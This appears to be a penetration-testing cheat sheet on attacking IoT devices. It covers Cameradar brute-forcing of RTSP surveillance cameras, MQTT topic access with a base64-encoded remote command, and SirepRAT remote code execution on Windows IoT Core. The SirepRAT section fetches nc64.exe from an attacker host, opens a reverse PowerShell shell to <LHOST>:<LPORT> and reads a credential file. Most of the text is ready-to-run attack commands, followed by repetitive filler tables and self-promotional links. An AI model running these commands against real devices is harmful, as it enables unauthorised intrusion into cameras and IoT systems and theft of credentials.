

# IoT

- [Resources](#resources)
- [IoT Flowchart](#iot-flowchart)

## Table of Contents

- [IoT Flowchart](#iot-flowchart)
- [Cameradar](#cameradar)
- [Mosquitto (MQTT)](#mosquitto-mqtt)
- [SirepRAT](#sireprat)

## IoT Flowchart



> **Read more:** For additional tools and references, see [Resources](#resources) below.

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Cameradar | Cameradar hacks its way into RTSP videosurveillance cameras | https://github.com/Ullaakut/cameradar |
| MQTT-PWN | MQTT-PWN intends to be a one-stop-shop for IoT Broker penetration-testing and security assessment operations. | https://github.com/akamai-threat-research/mqtt-pwn |
| Python-based MQTT Client Shell | Python-based MQTT client command shell | https://github.com/bapowell/python-mqtt-client-shell |
| SirepRAT | Remote Command Execution as SYSTEM on Windows IoT Core (releases available for Python2.7 & Python3)  | https://github.com/SafeBreach-Labs/SirepRAT |
| Tamilselvan Cybersecurity | Connect · Network | https://github.com/Tamilselvan-S-Cyber-Security |
| Tamilselvan - Website | Personal portfolio & resources | https://tamilselvan-official.web.app/ |
| Tamilselvan - LinkedIn | Professional profile | https://in.linkedin.com/in/tamil-selvan-383618304 |

## Cameradar

> https://github.com/Ullaakut/cameradar

### Execution using a custom Wordlist

```console
$ sudo docker run -t -v /PATH/TO/WORDLIST:/FOLDER/ ullaakut/cameradar -c "/FOLDER/<WORDLIST>.json" -t <RHOST>
$ sudo docker run -t -v /PATH/TO/WORDLIST:/FOLDER/ ullaakut/cameradar -c "/FOLDER/<WORDLIST>.json" -t <RHOST> -p <RPORT>
```

### Vendor List

- Robert Bosch GmbH
- Panasonic Corporation
- Honeywell International Inc.
- Cisco Systems, Inc.
- Sony Group Corporation
- LG Electionics Inc.
- Hikvision
- Dahua Technology
- Axis Communications AB
- Teledyne Technologies Incorporated
- Hanwha Group
- Motorola Solutions (Avigilon)
- Uniview

## Mosquitto (MQTT)

### Client Tools

```console
$ sudo apt-get install mosquitto mosquitto-clients
```

```console
$ mosquitto_sub -h <RHOST> -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'hello'
```

### Sending Commands

```console
{ "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls" }
```

```console
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyAiaWQiOiAiY2RkMWIxYzAtMWM0MC00YjBmLThlMjItNjFiMzU3NTQ4YjdkIiwgImNtZCI6ICJDTUQiLCAiYXJnIjogImxzIiB9'
```

### Python-based MQTT Client Shell

> https://github.com/bapowell/python-mqtt-client-shell

```console
$ python mqtt_client_shell.py
> host=<RHOST>
> host <RHOST>
> connect
> subscribe
> subscribe topic 0, 1, 2, 3
> exit
```

## SirepRAT

> https://github.com/SafeBreach-Labs/SirepRAT

### Upload

```console
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://<LHOST>:80/nc64.exe" --v
```

### Command Execution

```console
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe <LHOST> <LPORT> -e powershell.exe" --v
```

```console
$ $env:UserName                                                        // get the current username
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt    // accessing a file
$ $credential.GetNetworkCredential().Password                          // show input
```

---

## More contents

| Subject | Description |
| --- | --- |
| Additional resources | See Resources (Cameradar, MQTT-PWN, SirepRAT). |
| IoT flow | Discover → Enumerate → Exploit → Pivot; see flowchart. |

## More tables

| Reference | Location |
| --- | --- |
| Tools | Cameradar, Mosquitto/MQTT, SirepRAT in sections above. |
| Protocols | MQTT, RTSP; see respective sections. |

## Tools and commands

| Category | Example |
| --- | --- |
| Cameradar | See Cameradar section for docker run and wordlist. |
| SirepRAT | `python SirepRAT.py <RHOST> LaunchCommandWithOutput ...` — see above. |

## Payloads table

| Type | Description | Reference |
| --- | --- | --- |
| RTSP / cameras | Cameradar wordlists, auth bypass | See Cameradar section. |
| MQTT / SirepRAT | Subscribe topics, RCE args | See Mosquitto, SirepRAT sections above. |

---

## Connections

**Tamilselvan Cybersecurity** — Connect · Network:

| Resource | Link |
| --- | --- |
| GitHub | https://github.com/Tamilselvan-S-Cyber-Security |
| Website | https://tamilselvan-official.web.app/ |
| LinkedIn | https://in.linkedin.com/in/tamil-selvan-383618304 |
